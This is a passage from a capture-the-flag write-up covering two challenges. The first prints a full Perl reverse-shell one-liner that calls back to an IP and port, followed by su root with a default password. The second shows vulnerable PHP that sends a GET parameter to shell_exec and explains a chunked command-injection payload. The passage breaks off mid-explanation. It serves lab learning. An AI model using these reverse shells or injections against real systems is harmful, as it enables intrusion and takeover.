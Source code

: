 By running a couple of commands it turns out there is a blacklist blocking certain commands. To avoid this we can spawn a reverse shell using ``Perl``:
```bash
perl -e 'use Socket;$i="10.0.240.253";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
```

Once we are on the system we can simply just run ``su root`` with the password ``root``.

By opening ``/root/flag.txt`` we get our flag:
``DDC{seems_like_I_forgot_something}``

### Op i Gear
###### 484pts - 9 solves
> DET ER NATIONALS OG DET ER TID TIL AT KOMME 100% OP I GEAR MIN VEN, FANG MIG PÅ op-i-gear.hkn

By navigating to the web server, we are able to choose different "gears" that display a different page depending on which gear you have chosen.
![Op i Gear homepage](/DDC25National/opigear.png)

If we look in the given source we can find the relevant function:
```php
// Process when gear is selected
if (isset($_GET['gear'])) {
    $gear = $_GET['gear'];

    // Just check if the command isn't too long for security you know
    if (strlen($gear) <= 30) {

        // Create command to cat the selected gear file
        $command = "cat gears/" . $gear . ".txt";

        // Execute the command
        $output = shell_exec($command . " 2>&1");

        // Set the current gear for image display
        $current_gear = $gear;
    } else {
        $current_gear = "gear-1";
        $output = "Fejl: Gear navn må højst være 30 tegn";
    }
}
?>
```

It turns out that we are actually running a shell command when we choose a "gear". The full command would look like this:
```bash
cat gears/gear-4.txt
```

This allows us to perform command injection. But we are also limited by the 30 char limit. We can exploit this by writing a reverse shell in small chunks:
```python
f';echo -n \"{content}\">>{file}'
```
